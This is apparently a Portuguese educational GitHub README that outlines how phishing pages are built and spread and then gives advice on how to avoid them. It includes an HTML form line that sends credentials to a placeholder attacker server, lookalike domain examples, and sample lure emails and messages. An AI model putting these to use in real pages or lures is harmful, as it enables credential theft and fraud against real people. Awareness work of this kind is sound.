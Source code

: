 # Phising-Page-Educational

Este documento é **apenas para fins educativos** e visa conscientizar sobre as técnicas usadas por atacantes para criar e usar páginas falsas (phishing) para roubar dados. O objetivo é ajudar os leitores a identificar e evitar essas ameaças.

---

## 1. O Que é Phishing?

Phishing é uma técnica de engenharia social usada por cibercriminosos para enganar usuários e obter informações sensíveis, como credenciais de login, números de cartões de crédito, ou outros dados pessoais. Os atacantes criam páginas falsas que simulam ser legítimas e induzem as vítimas a inserir suas informações.

---

## 2. Etapas de um Ataque de Phishing

### 2.1 Reconhecimento e Escolha do Alvo
1. **Identificar a vítima**:
   - Empresas ou indivíduos específicos podem ser alvo.
   - Atacantes pesquisam dados públicos, redes sociais, ou e-mails vazados.
   
2. **Escolha do serviço a ser falsificado**:
   - Serviços populares como bancos, redes sociais (e.g., Facebook), ou e-commerce (e.g., Amazon) são alvos comuns.

---

### 2.2 Criação da Página Falsa

1. **Imitar o design de um site legítimo**:
   - Os atacantes copiam o HTML, CSS e scripts de um site legítimo.
   - Alteram os formulários para enviar dados inseridos diretamente para os servidores dos atacantes.

2. **Configuração do Formulário**:
   - O formulário coleta entradas como:
     - Nome de usuário ou e-mail.
     - Senha.
     - Outras informações confidenciais (número de cartão de crédito, CPF, etc.).
   - Alteram o atributo `action` no formulário para enviar os dados para o servidor controlado pelo atacante:
     ```html
     <form action="https://servidor-do-atacante.com/receber-dados" method="POST">
     ```

3. **Registro de Domínio Malicioso**:
   - O atacante registra um domínio semelhante ao do site verdadeiro:
     - Exemplo: `www.faceb00k-login.com` em vez de `www.facebook.com`.
   - Usam certificados SSL gratuitos para simular segurança com HTTPS.

---

### 2.3 Distribuição do Link Malicioso

1. **Enganar a vítima**:
   - Links para a página falsa são distribuídos por:
     - **E-mails de phishing**: Mensagens que simulam notificações do serviço original.
     - **Redes sociais**: Mensagens diretas ou postagens falsas.
     - **Anúncios maliciosos**: Publicidade paga ou banners que redirecionam para a página falsa.

2. **Textos Enganosos**:
   - Promessas de descontos, prêmios ou alertas urgentes, como:
     - "Sua conta foi comprometida. Clique aqui para redefinir sua senha."
     - "Você ganhou um prêmio! Confirme seus dados para receber."

---

### 2.4 Captura de Dados da Vítima

1. **Envio das Informações**:
   - Quando a vítima insere os dados na página falsa e clica em "Enviar", os dados são enviados ao servidor do atacante.

2. **Armazenamento dos Dados**:
   - O servidor do atacante registra as informações recebidas em um banco de dados ou arquivo para uso posterior.

---

### 2.5 Uso dos Dados Roubados

1. **Acesso à Conta da Vítima**:
   - Os atacantes tentam usar as credenciais em:
     - Contas de e-mail, redes sociais, bancos, etc.
   
2. **Fraude e Roubo de Identidade**:
   - Compras não autorizadas, transferências bancárias ou uso da identidade da vítima para outros ataques.

3. **Venda de Dados**:
   - Informações roubadas são vendidas na dark web para outros cibercriminosos.

---

## 3. Exemplos de Técnicas Usadas

### 3.1 E-mails de Phishing
- **Aparência Profissional**:
  - E-mails são projetados para parecerem oficiais, com logotipos e formatação similar ao do serviço legítimo.
  - Exemplo de e-mail falso:
    ```
    Assunto: Atualização de segurança necessária
    Caro usuário,
    Detectamos uma atividade suspeita em sua conta. Por favor, atualize suas informações clicando no link abaixo:
    [Atualizar Conta]
    ```
    Link leva a uma página falsa.

### 3.2 Domínios Parecidos
- Domínios que imitam serviços legítimos, mas possuem pequenas alterações:
  - Exemplo: `paypal-security.com` em vez de `paypal.com`.

---

## 4. Como Identificar e Evitar Páginas Falsas

1. **Verifique o Endereço do Site (URL)**:
   - Certifique-se de que o domínio é correto.
   - URLs com erros de ortografia ou extensões desconhecidas são suspeitas.

2. **Cuidado com HTTPS Falsos**:
   - Atacantes podem usar HTTPS. Um cadeado na barra de endereço **não garante** que o site é confiável.

3. **Evite Clicar em Links Desconhecidos**:
   - Nunca clique em links de e-mails ou mensagens não solicitadas.

4. **Use Autenticação em Duas Etapas (2FA)**:
   - Mesmo que sua senha seja comprometida, 2FA pode impedir o acesso à conta.

5. **Instale Softwares de Segurança**:
   - Antivírus e extensões de navegador podem bloquear sites maliciosos.

---

## 5. Conclusão

A criação de páginas falsas é uma técnica poderosa e comum no arsenal de cibercriminosos. Entender como esses ataques funcionam é fundamental para se proteger. Sempre verifique a autenticidade de sites e e-mails antes de inserir informações confidenciais.

Se precisar de mais detalhes ou exemplos, posso adicionar!
